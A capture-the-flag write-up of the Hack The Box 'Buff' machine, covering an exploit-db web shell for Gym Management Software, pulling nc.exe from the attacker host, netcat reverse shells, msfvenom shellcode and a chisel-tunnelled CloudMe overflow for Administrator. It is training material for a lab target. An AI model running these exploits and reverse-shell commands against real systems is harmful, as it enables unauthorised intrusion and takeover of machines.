

# Buff


Buff is an easy box that involved an RCE php web shell exploit, uploading netcat to the box to get a proper shell and finding the user flag. Getting Administrator involved exploiting a CloudMe service through port forwarding.

# Overview
- Enumeration of the target
- Discovering the website software and finding an exploit
- Using the exploit to upload netcat and get a reverse shell
- user.txt
- Exploiting CloudMe through port forwarding to get Administrator
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~/htb/buff$ nmap -sC -sV -Pn 10.10.10.198
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.198
Host is up (0.028s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.75 seconds
```

All we see is a website on port 8080, let's take a look.

## Website


We can see a fitness website. If we take a look around the pages, we can see what software is being used on the contact page.



It's using Gym Management Software 1.0, after searching online, we find a webshell exploit on [exploit-db](https://www.exploit-db.com/exploits/48506).

# Exploitation

## Webshell

We can run the program with the address of the website to get a webshell.

```bash
finlay@kali:~/htb/buff$ python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

## Reverse shell

Now we can upload netcat to the box and use it to get a reverse shell.

First, start a web server locally with `nc.exe` in the same directory.

```bash
finlay@kali:~/htb/buff$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then, use curl on the webshell to download `nc.exe`.

```powershell
C:\xampp\htdocs\gym\upload> curl 10.10.14.19:8000/nc.exe -o nc.exe
```

Then, setup a listener locally:

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, execute netcat:

```bash
C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.19 4444 -e cmd.exe
```

And we see that we got a connection to our listener:


## User.txt

And we find the flag in C:\Users\shaun\Desktop


# Privilege Escalation

After searching around on the box, we find `CloudMe_1112.exe` in the Downloads folder, we can exploit this to get Administrator. We need to download the exploit from [exploit-db](https://www.exploit-db.com/exploits/48389).

To use this exploit, we need to create the payload in shellcode, I used msfvenom to do this.

```bash
finlay@kali:~/htb/buff$ msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.19 5555' -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 273 (iteration=0)
x86/shikata_ga_nai chosen with final size 273
Payload size: 273 bytes
Final size of python file: 1452 bytes
payload =  b""
payload += b"\xbb\x8e\x9d\x9f\x1c\xda\xd9\xd9\x74\x24\xf4\x58"
payload += b"\x29\xc9\xb1\x3e\x83\xe8\xfc\x31\x58\x10\x03\x58"
...
```

Now we can insert this into the exploit from exploit-db instead of the one there.

Next, we need to setup port forwarding on the target so we can run the script. I did it using chisel, first you need to setup a chisel server locally.

```bash
finlay@kali:~/htb/buff$ ./chisel server -p 8080 -reverse
2020/11/20 15:23:18 server: Reverse tunnelling enabled
2020/11/20 15:23:18 server: Fingerprint lSUQvDZyfhHoCrL3ekB/eGcLRkBSVoDqEyGuWi2zFv8=
2020/11/20 15:23:18 server: Listening on http://0.0.0.0:8080
```

Then we connect to the server from the target, which will port forward when we run the python script.

```cmd
C:\xampp\htdocs\gym\upload>chisel.exe client 10.10.14.19:8080 R:8888:127.0.0.1:8888
chisel.exe client 10.10.14.19:8080 R:8888:127.0.0.1:8888
2020/11/20 20:33:41 client: Connecting to ws://10.10.14.19:8080
2020/11/20 20:33:41 client: Connected (Latency 29.7535ms)
```

Then we setup a listener locally on the same port that we specified when we made the payload:

```bash
finlay@kali:~$ nc -nvlp 5555
listening on [any] 5555 ...
```

Finally, we run the exploit.

```bash
finlay@kali:~/htb/buff$ python privesc.py
```

And we see that we got a connection on our listener:


## Root.txt

And we find the flag in C:\Users\Administrator\Desktop

